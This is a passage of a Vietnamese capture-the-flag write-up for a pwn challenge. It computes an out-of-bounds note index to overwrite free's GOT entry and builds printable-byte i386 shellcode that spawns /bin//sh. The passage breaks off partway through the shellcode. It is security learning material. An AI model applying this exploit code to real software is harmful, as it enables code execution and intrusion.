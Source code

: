 ## Khai thác

- **Stage 1:** tìm index

trước tiên thì ta cần **tìm index chạy đến got&free**

debug thì ta sẽ biết là địa chỉ ta trỏ đến sẽ bằng: 

```
address = (index * 4) + note(0x804a060)
```

![image](https://github.com/gookoosss/CTF/assets/128712571/f36c3808-165c-466f-ad14-43bd418c6cbe)


vậy ta cần giờ **ta cần index thì ta chỉ cần lấy (got&free - note ) / 4 là xong**

```python 
note = 0x0804a060
free = exe.got['free']
index = (free - note) / 4
log.info('note: ' + hex(note))
log.info('free: ' + hex(free))
log.info('index: ' + str(index)) # index = -19
```

- **Stage 2:** viết shellcode 

sau khi có được index rồi thì ta cần có shellcode để nhập vào, **vấn đề ở đây là shellcode phải thỏa điều kiện của hàm is_printable là các byte nhằm từ 0x2 đến 0x7f, cái này rất khó**

những thứ ta cần
```
eax = 0xb
edx = 0x0
ecx = 0x0
ebx = /bin//sh
int 0x80
```

vấn đề ở đây là để setup những arg này **ta không thể dùng lệnh mov và int 0x80 được**

**sau khi mình tham khảo writeup của @hlaan** thì đây shellcode cho chall này

```python3
shellcode = asm(
    '''
    push eax # gán địa chỉ heap đang lưu shellcode vào stack để lưa vào ebp
    pop ebp 
    
    ########################
    ### Stage 1: set ebx ###
    ########################
    
    push edx # debug thì thấy edx là null byte sẵn rồi nên ta đặt vào stack luôn
    push 0x68732f2f # //sh
    push 0x6e69622f # /bin
    push esp # khởi tạo cho esp bằng stack đang chứ /bin//sh\0
    pop ebx # gán /bin//sh\0 vào ebx 
    
    #####################################
    ### Stage 2: set edi = 0xffffcd80 ###
    #####################################
    
    # note: int 0x80 = \xCD\x80
    
    push 0x30     #
    pop eax       # set eax = 0x0
    xor al, 0x30  #
    dec eax # trừ 1 để eax = 0xfffffff
```